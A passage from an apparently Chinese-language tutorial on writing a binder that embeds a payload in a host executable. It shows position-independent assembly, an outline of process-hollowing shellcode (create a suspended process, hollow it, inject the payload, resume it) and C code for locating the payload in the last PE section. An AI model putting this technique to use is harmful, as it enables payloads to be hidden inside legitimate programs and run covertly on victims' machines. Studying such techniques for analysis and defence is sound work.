 **3.3 动态计算字符串地址**

我们需要解决的另一个问题是字符串地址问题。字符串使用的是硬编码的地址，为了在运行时（run-time）找到这些地址，一种方法是使用delta offset技巧来动态计算字符串的地址，相关计算代码如下所示：



```
string:  db "Hello world!", 0
_get_loc:
    call _loc
_loc:
    pop edx
    ret
_get_string:
    call _get_loc              ; get address of _loc
    sub edx, _loc - string     ; calculate address of string by subtracting
                               ; the difference in bytes from _loc
    mov eax, edx               ; return the address of the string
    ret
```

**3.4 其他依赖源**

其他地方可能会碰到一些依赖问题，比如对某些基础函数（如strlen）的依赖问题，因此我们也需要手动编写这些函数代码。为了避免在编译可执行文件过程中出现任何依赖问题，我选择使用C以及汇编语言，通过gcc以及nasm编译得到目标代码，然后使用ld手动完成链接过程。需要注意的是，函数调用有**相对**以及**绝对**两种形式。想使用相对形式（位置无关代码），它们必须使用E8十六进制操作码。



**四、编写Shellcode**

首先我想先谈谈shellcode代码，因为shellcode是binder程序中必需的一个组件。shellcode需要实现两个目标：以新进程方式运行载荷，然后继续执行原始程序。

具体步骤为：

1、在最后一个section中找到载荷。

2、创建一个挂起的（suspended）进程。

3、掏空进程，为载荷预留空间，空间大小对应从载荷映像（image）基址到映像结束所需的空间大小。

4、为载荷分配内存空间，解析载荷并将载荷写入正确的地址。

5、恢复挂起进程的执行，开始执行载荷。

6、跳转到原始程序的原始入口点。

**4.1 定位payload**

首先需要找到可执行文件最后一个section所对应的相关字节，具体方法为：



```
LPVOID GetPayload(LPVOID lpModule) `{`
// get DOS header
PIMAGE_DOS_HEADER pidh = (PIMAGE_DOS_HEADER)lpModule;
// get NT headers
PIMAGE_NT_HEADERS pinh = (PIMAGE_NT_HEADERS)((DWORD)lpModule + pidh-&gt;e_lfanew);
// find .text section
PIMAGE_SECTION_HEADER pishText = IMAGE_FIRST_SECTION(pinh);
// get last IMAGE_SECTION_HEADER
PIMAGE_SECTION_HEADER pishLast = (PIMAGE_SECTION_HEADER)(pishText + (pinh-&gt;FileHeader.NumberOfSections - 1));
return (LPVOID)(pinh-&gt;OptionalHeader.ImageBase + pishLast-&gt;VirtualAddress);
`}`
```
